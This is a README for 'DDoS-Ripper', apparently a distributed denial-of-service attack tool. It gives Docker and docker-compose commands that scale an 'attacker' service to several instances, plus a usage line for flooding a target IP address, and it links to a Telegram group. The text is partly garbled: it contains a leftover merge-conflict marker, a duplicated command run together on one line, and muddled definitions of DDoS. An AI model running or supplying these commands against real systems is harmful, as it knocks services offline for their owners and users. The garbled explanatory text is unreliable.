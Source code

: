 # DDoS-Ripper
Before run docker, change URL (IP) and other params in Dockerfile .

#docker build

docker build -t phoenixua/dripper .


#docker start 
docker run --rm -ti  phoenixua/dripper:latest


#docker-compose start 
docker-compose up --build -d --scale attacker=4


#docker-compose logs

docker-compose logs -f  -t  --tail 20 attackerdocker-compose logs -f  -t  --tail 20 attacker


<<<<<<< HEAD

# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

<a href="https://t.me/CyberClans"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>


